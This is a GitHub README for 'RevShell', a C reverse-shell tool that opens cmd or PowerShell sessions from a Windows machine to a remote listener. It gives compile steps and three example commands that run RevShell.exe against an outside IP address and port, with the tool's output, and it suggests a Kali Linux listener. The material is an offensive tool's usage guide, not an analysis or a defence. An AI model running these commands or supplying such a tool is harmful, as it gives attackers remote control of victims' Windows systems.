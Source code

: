 # RevShell

## Description
This is a simple C-based reverse shell used to open a _cmd_ or _powershell_ session from Windows to Linux/Windows/OSx.

## Features
- [x] Open a reverse shell using cmd.exe
- [x] Open a reverse shell using powershell.exe

## How To Compile The Code
1. Download and install VisualStudio 2019 - Community Edition
2. Clone this repository to a local folder
3. Open the file "RevShell.sln"
4. Press F6 to compile the code
5. Enjoy :)

## Examples
Before starting the executable make sure you have started a listener on your favorite (Linux) distribution (eg. Kali Linux).

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 cmd
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a powershell session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 powershell
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

![Image of Cracked Pattern](https://github.com/AleDiBen/RevShell/blob/master/example.png)\
_RevShell.exe in action._

